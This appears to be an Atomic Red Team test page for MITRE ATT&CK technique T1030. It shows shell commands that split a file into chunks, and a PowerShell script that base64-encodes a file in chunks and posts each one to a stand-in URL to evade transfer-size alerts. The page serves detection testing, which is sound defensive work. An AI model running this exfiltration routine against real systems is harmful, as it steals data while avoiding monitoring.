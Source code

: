 # T1030 - Data Transfer Size Limits
## [Description from ATT&CK](https://attack.mitre.org/techniques/T1030)
<blockquote>An adversary may exfiltrate data in fixed size chunks instead of whole files or limit packet sizes below certain thresholds. This approach may be used to avoid triggering network data transfer threshold alerts.</blockquote>

## Atomic Tests

- [Atomic Test #1 - Data Transfer Size Limits](#atomic-test-1---data-transfer-size-limits)

- [Atomic Test #2 - Network-Based Data Transfer in Small Chunks](#atomic-test-2---network-based-data-transfer-in-small-chunks)


<br/>

## Atomic Test #1 - Data Transfer Size Limits
Take a file/directory, split it into 5Mb chunks

**Supported Platforms:** macOS, Linux


**auto_generated_guid:** ab936c51-10f4-46ce-9144-e02137b2016a





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| file_name | File name | path | T1030_urandom|
| folder_path | Path where the test creates artifacts | path | /tmp/T1030|


#### Attack Commands: Run with `sh`! 


```sh
cd #{folder_path}; split -b 5000000 #{file_name}
ls -l #{folder_path}
```

#### Cleanup Commands:
```sh
if [ -f #{folder_path}/safe_to_delete ]; then rm -rf #{folder_path}; fi;
```



#### Dependencies:  Run with `sh`!
##### Description: The file must exist for the test to run.
##### Check Prereq Commands:
```sh
if [ ! -f #{folder_path}/#{file_name} ]; then exit 1; else exit 0; fi;
```
##### Get Prereq Commands:
```sh
if [ ! -d #{folder_path} ]; then mkdir -p #{folder_path}; touch #{folder_path}/safe_to_delete; fi; dd if=/dev/urandom of=#{folder_path}/#{file_name} bs=25000000 count=1
```




<br/>
<br/>

## Atomic Test #2 - Network-Based Data Transfer in Small Chunks
Simulate transferring data over a network in small chunks to evade detection.

**Supported Platforms:** Windows


**auto_generated_guid:** f0287b58-f4bc-40f6-87eb-692e126e7f8f





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| source_file_path | Path to the source file to transfer. | path | [User specified]|
| destination_url | URL of the destination server. | url | http://example.com|
| chunk_size | Size of each data chunk (in KB). | integer | 1024|


#### Attack Commands: Run with `powershell`! 


```powershell
$file = [System.IO.File]::OpenRead(#{source_file_path})
$chunkSize = #{chunk_size} * 1KB
$buffer = New-Object Byte[] $chunkSize

while ($bytesRead = $file.Read($buffer, 0, $buffer.Length)) {
    $encodedChunk = [Convert]::ToBase64String($buffer, 0, $bytesRead)
    Invoke-WebRequest -Uri #{destination_url} -Method Post -Body $encodedChunk
}
$file.Close()
```






<br/>
